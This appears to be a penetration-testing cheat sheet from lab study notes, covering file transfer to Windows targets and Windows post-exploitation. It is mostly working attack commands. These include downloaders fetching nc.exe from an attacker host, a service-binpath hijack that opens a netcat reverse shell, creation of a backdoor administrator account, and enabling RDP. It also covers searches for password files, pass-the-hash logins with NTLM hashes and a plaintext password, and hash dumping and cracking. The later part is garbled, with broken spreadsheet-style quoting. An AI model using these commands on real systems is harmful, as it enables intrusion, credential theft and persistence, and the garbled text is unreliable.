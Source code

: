 
## File Transfer
Below methos can be used to transfer files..

## Transferring Files to Windows	## 
-**Running Webserver on Kali**
```
python -m SimpleHTTPServer 8080	
```
-**Transfer with Netcat**
```
//Kali
nc -lvp 1234 > zeroday.txt
//Win 
nc 192.168.0.114 1234 < zero-day.txt
```
ref: https://blog.ropnop.com/transferring-files-from-kali-to-windows/

-**TFTP** <br />
If target has tftp running, you can easily check it by typing tftp on windows cmd. 
Starting tftp service : 
```
atftpd --daemon --port 69 /tftp 
/etc/init.d/atftpd restart
cd /srv/tftp
cp /var/www/html/nc.exe .
```

```
//transfer nc.exe  
tftp -i 10.11.0.42 GET nc.exe
//PUT
tftp -i 10.11.0.42 PUT test.txt
```

-**FTP** <br />
Setup FTP service by downloading pyftp library 
```
apt-get install python-pyftpdlib  
python -m pyftpdlib -p 21 -w
```
You can also automate ftp process by creating ftp.txt
```
echo open 10.11.0.42>ftp.txt
echo anonymous>>ftp.txt
echo password>>ftp.txt
echo binary>>ftp.txt
echo get nc.exe>>ftp.txt 
echo bye>>ftp.txt
ftp -s:ftp.txt
```

cf.	Setting FTP
```sh
groupadd ftpgroup 
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome 
pure-pw mkdb 
cd /etc/pure-ftpd/auth/ 
ln -s ../conf/PureDB 60pdb 
mkdir -p /ftphome 
chown -R ftpuser:ftpgroup /ftphome/ 
/etc/init.d/pure-ftpd restart
```

```
root@kali:~# chmod 755 setup-ftp 
root@kali:~# ./setup-ftp 
Password: 
Enter it again: 
Restarting ftp server
```

-**Creating VBscript** <br />
wget.vbs * VBScript  (eg. in Windows XP, 2003) 
```sh

echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

```
**Usgage**  : ```cscript wget.vbs http://10.11.0.42/wget.exe wget.exe```


-**PowerShell-** (in Windows 7, 2008, and above) 	 <br />
wget.ps1
```sh
echo $storageDir = $pwd > wget.ps1 
echo $webclient = New-Object System.Net.WebClient >>wget.ps1 
echo $url = "http://10.11.0.42/nc.exe" >>wget.ps1 
echo $file = "nc.exe" >>wget.ps1 
echo $webclient.DownloadFile($url,$file) >>wget.ps1 
```
**Usgage**  : ```powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive NoProfile -File wget.ps1```


# Post Exploit - Windows	
 
- **Checking OS Details** 
```
systeminfo 
findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```
- **64 or 86 Checking **
```
wmic os get osarchitecture
```
or checking "System Files"
C:\Windows\System32\license.rtf for Windows 7. 
C:\Windows\System32\eula.txt for Windows XP
C:/WINDOWS/inf/layout.inf
cat layout.inf |grep productname

System32        C:\Windows\System32        Windows System folder (system directory) for 64-bit files
SysWOW64        C:\Windows\SysWOW64        Windows System folder (system directory) for 32-bit files

ref : http://www.samlogic.net/articles/32-64-bit-windows-folder-x86-syswow64.htm

- **Find Sensitive Files **
Find password	
```
findstr /si password *.xml *.ini *.txt
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /spin ""password"" *.*"
```

- **Adding Local User **
Net commad
```
net user susu gothacked /add
net localgroup Administrators susu /add
```
If target has RDP service running, you may able to RDP into target; ```rdesktop -u susu -p gothacked 10.11.1.31```

- **Enable RDP service on Target **
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
NET LOCALGROUP "Remote Desktop Users" robert /ADD
NET LOCALGROUP "Remote Desktop Users" susu /ADD
```
If target has RDP service running, you may able to RDP into target; ```rdesktop -u susu -p gothacked 10.11.1.31```

- **AccessChck**

accesschk.exe
Guide : http://www.fuzzysecurity.com/tutorials/16.html"	"Old version : https://xorcat.net/assets/other/Accesschk.zip
https://xor.cat/2017/09/05/sysinternals-accesschk-accepteula/
accesschk.exe -qwsu ""Users"" *
https://docs.google.com/document/d/16WpxAa2vI6RbJrd42lZy3TM23ehwl_lY-zfRhYO9MbY/edit"
sc config	"sc config upnphost binpath= ""C:\Inetpub\Scripts\nc.exe -nv 10.11.0.45 7878 -e C:\WINDOWS\System32\cmd.exe""
sc config upnphost obj= "".\LocalSystem"" password= """"
sc config ssdpsrv start= demand"
Proof.txt	"echo %username%
whoami
ipconfig
more ""C:\Documents and Settings\Administrator\Desktop\proof.txt""
type ""C:\Documents and Settings\Administrator\Desktop\proof.txt""
type ""C:\Documents and Settings\Administrator\Desktop\proof.txt"""
"PTH
https://xapax.gitbooks.io/security/content/pass_the_hash_-_reusing_hashes.html?q=
https://www.kali.org/penetration-testing/passing-hash-remote-desktop/"	"1. RDP with Hash value
xfreerdp /u:""kevin"" /d:master.thinc.local /pth:aad3b435b51404eeaad3b435b51404ee:aef3d57f355a02297fc386630a01449e /v:10.11.1.220
password : !QW@3er45t
xfreerdp /u:""administrator"" /d:master.thinc.local /pth:aad3b435b51404eeaad3b435b51404ee:0598acedc0122622ad85afc9e66d329e /v:10.11.1.220
password : (gotta set the password after passing the smb hash)
2. SMB export hash value
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:0598acedc0122622ad85afc9e66d329e
pth-winexe -U Administrator% //10.11.1.220 cmd"
"After Exploit
Dump pwd"	fgdump.exe 
NTLM Decrypt	"john ./pwlist.txt --format=nt --wordlist=/pentest/passwords/wordlists/rockyou.txt
http://www.madhur.co.in/blog/2011/09/18/crackresetwindows.html
https://hashkiller.co.uk/ntlm-decrypter.aspx"
	
PsExec	https://pinkysplanet.net/escalating-privileges-in-windows-with-psexec-and-netcat/
	
Pass the HASH	"1. put the hash in the environment variable with export command
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:0598acedc0122622ad85afc9e66d329e
2. authenticate SMB's cred
pth-winexe -U Administrator% //10.11.1.220 cmd

export SMBHASH=aad3b435b51404eeaad3b435b51404ee:B74242F37E47371AFF835A6EBCAC4FFE

pth-winexe -U Administrator% //10.11.1.49 cmd
"
